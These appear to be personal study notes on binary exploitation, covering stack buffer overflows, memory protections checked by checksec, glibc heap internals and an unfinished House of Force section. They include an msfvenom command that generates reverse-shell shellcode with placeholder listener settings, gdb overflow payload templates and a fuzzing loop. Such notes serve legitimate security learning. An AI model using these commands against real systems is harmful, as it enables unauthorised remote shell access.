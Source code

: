 ```bash
# Offset
$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l $SIZE > pattern.txt
$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q $ADDRESS

# Shellcode
msfvenom -p linux/x86/shell_reverse_tcp lhost=<LHOST> lport=<LPORT> --format c --arch x86 --platform linux --bad-chars "<chars>" --out <filename>

# Identifying bad characters (step by step - iterative process)
(gdb) run $(python -c 'print "\x90" * (offset_len - 256) + "\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" + "\x66" * 4')

(gdb) x/2000xb $esp+500

# proc info
(gdb) i proc all

# Find a return address
(gdb) x/2000xb $esp+1400

# Final
(gdb) run $(python -c 'print "\x55" * (offset_len - NOP_len - shellcode_len) + "\x90" * NOP_len + "shellcode" + "return address in little endian"')
```

`for i in $(cat len.txt); do ./bin $(python -c "print('A' * $i)"); done`

___

`checksec`: prints out the binary security settings 

- **RELRO** (Relocation Read-Only):
    + `Partial RELRO` &arr; changes a program's section layout in memory
    + `FULL RELRO` &rarr; maps some a program's sections as read-only after initialization.
- **NX** (No eXecute): _(also known as `DEP`?)_
    + enforces whether the pages of memory can be executable or not.
- **PIE** (Position Independent Executables): specifies whether addresses are known at runtime or not.
- **Canari**: small cookie value placed at the end of each stackframe so that if there is a buffer overflow and the canari is overwritten, it stops the execution. 
- **ASLR** (Address Space Layout Randomisation): stack, heap and libraries are loaded with random addresses.
- **RUNPATH**: specifies whether the binary is loaded with a LIBC located in a directory that the user control.  

**Data Execution Prevention** (`DEP`) is a security feature available in Windows XP, and later with Service Pack 2 (SP2) and above, programs are monitored during execution to ensure that they access memory areas cleanly. DEP terminates the program if a program attempts to call or access the program code in an unauthorized manner.

___

## Heap exploitation draft

First documented heap exploit around the 2000s:

- <http://phrack.org/issues/66/6.html>

### Intro

#### GLIBC

**GLIBC**, often shortened to **libc**, stands for Gnu C Library (open source)
    + shared object _(linux equivalent to Windows **DLL** ?)_

> Alternative C library implementations exist such as `musl` or `uclibc`

On an average Linux distro, it is impossible to find a process that doesn't map a GLIBC shared object into memory, doesn't it?

Command | Description                                                          |
--------|----------------------------------------------------------------------|
`ldd`   | list dynamic dependencies (shared objects) that a binary relies upon |

`*.so` &rarr; shared objects

> ABI versioning convention = **soname**. Increment over the years

Generally, linux operating systems are distributed with a specific version of GLIBC, which will not change for the support period.

**Tip**: we can run libc.so to figure out which version is used and what version of `gcc` it was compiled with:

```console
amirr0r@os:~/notes$ /lib/x86_64-linux-gnu/libc.so.6 
GNU C Library (Ubuntu GLIBC 2.32-0ubuntu3) release release version 2.32.
Copyright (C) 2020 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.
There is NO warranty; not even for MERCHANTABILITY or FITNESS FOR A
PARTICULAR PURPOSE.
Compiled by GNU CC version 10.2.0.
libc ABIs: UNIQUE IFUNC ABSOLUTE
For bug reporting instructions, please see:
<https://bugs.launchpad.net/ubuntu/+source/glibc/+bugs>.
```

#### `malloc()`

`malloc()` is a dynamic memory allocator function included in the **GLIBC**.

He distributes "**chunks**" of the heap (pieces from memory).

> `C++` **wrappers**: `new()`, `delete()`, `make_shared()`, `make_unique()`.

Basic operations like starting a new thread, opening a file, dealing with I/O rely on `malloc()` under the hood.

Unlike programming langages such as `Rust`, memory corruption is still an issue for `C`/`C++`... 

> This type of vulnerability can lead to info leak, denial of service or even arbitrary code execution. 

```c
void *ptr = malloc(wanted_size_of_allocated_memory)
```

- It uses an inline metadata (or header) to indicates the size of the next allocated chunk (total of bytes) plus a flag that tell if the following chunk is allocated or not (`+ 0x1` &rarr; least significant bit).

> This flag is called **prev_inuse**

`free(ptr)` is used to recycle the heap. 

[**LiveOverflow**: what does `malloc()` do?](https://www.youtube.com/watch?v=HPDBOhiKaD8&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=26)

### The Heap

- **Minimum size chunk**: 3 quadwords at 24 bytes _(even if we ask less)_.

- A **Top chunk** resides at the highest address of the heap. 

> As the other chunks, it has a size field.

When a new chunk is allocated, this top chunk is reduced. 

![top chunk](images/heap_exploitation/top_chunk.png)

- <https://sourceware.org/glibc/wiki/MallocInternals>
___

### Exploitation techniques

#### House of Force

In many versions of **GLIBC**, top chunk size field are not subject to integrity checks. This forms the basis of the House of Force...

> Example: `libc-2.28.so`

First documented in 2005 in [The Malloc Maleficarum paper](https://dl.packetstormsecurity.net/papers/attack/MallocMaleficarum.txt) by **Phantasmal Phantasmagoria**. In this paper, the author also introduces other heap exploitation techniques (described in later sections):

![house of * techniques](images/heap_exploitation/malloc_maleficarum.png)

> Since then, many techniques have followed the same "house of" naming convention.

**Concept**: Attackers can overwrote the heap's top chunk size field with a large value. 

From `malloc()`'s perspective, if we overwrote the heap's top chunk size field, we could extend across the gap between memory map regions (**libraries**, **stack**, etc.) and then overwrite sensitive data (`__malloc_hook` for example).

We can even go beyond the end of virtual address space and go back to the start at lower memory map regions (`.data`, `.plt`, etc).

#### House of Orange
#### House of Spirit
#### House of Lore
#### House of Einherjar
#### House of Rabbit
#### Poison Null Byte
#### House of Corrosion
#### Fastbin Dup
#### Unsafe Unlink
#### Safe Unlink
#### Unsortedbin Attack
#### Tcache Dup

___

## `pwndbg`:

- `set context-sections <regs, disasm, args, code, stack, backtrace, expressions, ghidra>`: change the context displayed at each iteration (default: `registers, disasm, code, stack and backtrace`)
- `context`: print the context
- `vmmap`: prints memory map (sections) for current process
- `vis_heap_chunks`: inspect heap memory
- `dq <address>`: dump quadword at specific address (similar to `x/16x <address>`)
- `xinfo <address>`: see which mapping a specific address resides at.
- `top_chunk`: prints top chunk address and size

___

## Misc

At runtime, a binary will use whichever GLIBC version is available on the OS it's installed on.

A binary can be vulnerable to exploitation on one platform, and not vulnerable on a different platform.
